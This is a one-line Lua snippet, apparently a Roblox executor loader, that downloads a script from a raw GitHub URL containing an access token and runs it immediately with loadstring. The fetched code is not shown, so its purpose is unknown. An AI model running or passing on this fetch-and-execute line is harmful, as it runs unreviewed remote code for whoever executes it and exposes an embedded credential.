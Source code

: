 loadstring(game:HttpGet('https://raw.githubusercontent.com/SomeoneIsStillHere/main.lua/main/main.lua?token=GHSAT0AAAAAACU4CADXP4ZT77L2OJQHP6LKZUVIR5A'))()
